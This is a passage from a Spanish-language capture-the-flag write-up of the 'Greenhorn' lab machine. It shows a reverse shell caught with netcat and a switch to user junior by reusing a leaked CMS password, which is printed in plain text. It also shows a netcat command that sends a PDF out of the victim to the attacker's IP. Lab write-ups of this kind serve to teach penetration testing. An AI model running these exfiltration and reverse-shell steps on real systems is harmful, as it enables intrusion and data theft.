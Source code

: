 Verificaremos que en nuestra terminal de `nc` hemos recibido correctamente la Reverse Shell y ya disponemos de acceso a la máquina víctima. Verificamos que nos encontramos con un usuario sin privilegios: `www-data`

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.25] 50182
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 17:08:42 up  1:24,  0 users,  load average: 0.10, 0.24, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1097): Inappropriate ioctl for device
bash: no job control in this shell
www-data@greenhorn:/$
```

Revisando el archivo `/etc/passwd`, verificamos que el usuario `junior` disponía de una bash. Probaremos de autenticarnos con las credenciales del usuario `admin` del `Pluck` (iloveyou1) para probar si esta contraseña es reutilizada. Logramos tener acceso como el usuario `junior` y visualizar la flag **user.txt**.

```bash
www-data@greenhorn:/$ su junior
Password: 
junior@greenhorn:/t$ whoami
junior
junior@greenhorn:~$ cat user.txt
0f37429764508b275b**************
```

## Privilege Escalation

Revisando el directorio `/home/junior`, verificamos que dispone de un archivo PDF.

Para transferirnos este archivo en nuestro equipo local, procederemos a ponernos en escucha con `nc` y a redirigir la conexión entrante a un archivo llamado `UsingOpenVAS.pdf`.

```bash
❯ nc -nlvp 443 > UsingOpenVAS.pdf
listening on [any] 443 ...
```

Por parte de la máquina víctima, procederemos a enviar el archivo PDF a través de `nc` a la dirección IP nuestra de atacante por el puerto especificado y indicándole que transfiera el archivo PDF.

```bash
junior@greenhorn:~$ ls
 user.txt  'Using OpenVAS.pdf'
junior@greenhorn:~$ nc -w 3 10.10.16.5 443 < 'Using OpenVAS.pdf'
```

Verificamos que logramos transferir el archivo a nuestro equipo local.

```bash
❯ nc -nlvp 443 > UsingOpenVAS.pdf
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.25] 59936
❯ ls -l UsingOpenVAS.pdf
.rw-rw-r-- kali kali 60 KB Thu Jan 16 18:40:23 2025  UsingOpenVAS.pdf
```
